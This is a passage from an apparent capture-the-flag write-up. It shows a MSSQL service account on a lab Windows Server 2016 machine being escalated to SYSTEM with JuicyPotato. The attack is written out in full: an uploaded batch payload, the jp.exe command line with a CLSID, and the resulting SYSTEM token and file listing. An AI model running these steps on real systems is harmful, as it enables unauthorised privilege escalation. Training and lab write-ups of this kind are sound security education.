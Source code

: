     
    
    root@kali# cat dir.bat 
    dir c:\users\administrator\desktop\ > c:\temp\out.txt
    

I’ll use the MSSQL shell to upload it to COMPATIBILITY, along with the latest
[JP release](https://github.com/ohpe/juicy-
potato/releases/download/v0.1/JuicyPotato.exe) (upload not shown):

    
    
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>UPLOAD dir.bat
    100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 7/7 [00:00<00:00, 44.88K/s]
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is F661-7669
    
     Directory of C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp
    
    02/16/2019  01:08 AM    <DIR>          .
    02/16/2019  01:08 AM    <DIR>          ..
    02/16/2019  01:08 AM                54 dir.bat
    02/16/2019  12:50 AM           347,648 jp.exe
                   3 File(s)        347,710 bytes
                   2 Dir(s)   6,083,448,832 bytes free
    

I need a CLSID to run with. The JuicyPotato GitHub repo has a list for each OS
type. Since this box is (was) Server 2016, I’ll try from [this
list](https://github.com/ohpe/juicy-
potato/blob/f88727071151894c8ce6583b1602a8c68380294c/CLSID/Windows_Server_2016_Standard/README.md).
Now I’ll run `jp.exe -t * -p [payload] -l 9001 -c [CLSID]`, and it seems to
work:

    
    
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>jp.exe -t * -p C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp\dir.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}
    Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
    ......
    [+] authresult 0
    {5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM
    
    [+] CreateProcessWithTokenW OK
    

There’s an `out.txt` file in `c:\temp`, and it shows the flag on the
administrators desktop:

    
    
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>dir \temp
     Volume in drive C has no label.
     Volume Serial Number is F661-7669
    
     Directory of C:\temp
    
    02/16/2019  01:09 AM    <DIR>          .
    02/16/2019  01:09 AM    <DIR>          ..
    02/16/2019  01:09 AM               353 out.txt
                   1 File(s)            353 bytes
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>type \temp\out.txt
     Volume in drive C has no label.
     Volume Serial Number is F661-7669
    